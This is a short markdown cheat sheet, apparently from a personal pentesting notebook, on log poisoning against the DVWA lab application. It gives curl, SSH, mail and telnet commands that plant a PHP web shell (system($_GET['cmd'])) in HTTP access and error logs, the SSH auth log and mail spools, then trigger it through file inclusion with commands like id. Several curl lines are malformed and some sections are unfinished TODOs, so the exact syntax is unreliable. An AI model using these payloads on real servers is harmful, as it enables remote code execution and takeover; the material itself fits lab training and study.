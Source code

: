 # Manual

TODO: include conditions and screenshots for the attack vectors

## HTTP

### Access Log

Make a valid request with the code in the `User-Agent` header.

```
$ curl -H 'User-Agent' --data "<?php system($_GET['cmd']); ?>" "http://dvwa.local" -v
```

### Error Log

Make an invalid request, an invalid inclusion for example, with the suitable `Referer` header.

```
$ curl -H 'Referer' --data "<?php system($_GET['cmd']); ?>" "http://dvwa.local/urldoesnotexist" -v
```

#### PHP Sessions

TODO: Go to authentication page to include PHP code to poison error log then perform a file inclusion.

```
username=<?=phpinfo();?>&password=test
```

## SSH

SSH logs the username of each connection. Create a connection to SSH with the suitable username.

```
$ ssh '<?php system($_GET['c']); ?>'@dvwa.local
```

```
/var/log/auth.log&cmd=ifconfig
```

## SMTP

```
$ mail -s "<?php system($_GET['cmd']);?>" www-data@dvwa.local < /dev/null
```

```
$ telnet dvwa.local 25
MAIL FROM:<test@email.com>
RCPT TO:<?php system($_GET['cmd']); ?>
```

```
$ curl http://dvwa.local/index.php?page=/var/mail/www-data&cmd=id
```

---
## References

### Backlinks

- [[Log Poisoning]]
